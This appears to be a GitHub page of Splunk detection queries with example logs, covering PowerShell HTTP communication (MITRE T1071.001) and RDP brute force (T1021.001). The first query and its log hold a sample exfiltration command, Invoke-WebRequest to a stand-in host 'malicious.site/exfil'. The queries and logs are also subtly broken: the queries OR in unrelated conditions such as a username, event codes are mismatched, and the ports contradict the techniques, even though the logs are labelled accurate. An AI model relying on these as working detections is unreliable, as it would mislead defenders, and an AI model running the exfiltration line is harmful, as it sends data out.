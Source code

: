 

## T1071.001 - Detection of HTTP Communication via powershell.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode="3" CommandLine="Invoke-WebRequest -Uri http://malicious.site/exfil"
OR ParentProcessName="C:\Windows\System32\cmd.exe"
OR User="testuser"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 15:50:00",
  "MITRE_Technique": "T1071.001",
  "Description": "Detection of HTTP Communication via powershell.exe",
  "sourcetype": "WinEventLog:Microsoft-Windows-PowerShell/Operational",
  "EventCode": "3",
  "CommandLine": "Invoke-WebRequest -Uri http://malicious.site/exfil",
  "ParentProcessName": "C:\Windows\System32\cmd.exe",
  "User": "testuser",
  "Source_Network_Address": "192.168.56.103",
  "DestinationPort": "3389"
}
```

---


## T1021.001 - Detection of RDP Brute Force via mstsc.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Security" EventCode="4625" CommandLine="mstsc.exe /v:192.168.56.102 -session 23"
OR ParentProcessName="C:\Windows\System32\explorer.exe"
OR User="Administrator"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 15:55:00",
  "MITRE_Technique": "T1021.001",
  "Description": "Detection of RDP Brute Force via mstsc.exe",
  "sourcetype": "WinEventLog:Security",
  "EventCode": "4625",
  "CommandLine": "mstsc.exe /v:192.168.56.102 -session 23",
  "ParentProcessName": "C:\Windows\System32\explorer.exe",
  "User": "Administrator",
  "Source_Network_Address": "192.168.56.100",
  "DestinationPort": "445"
}
```

---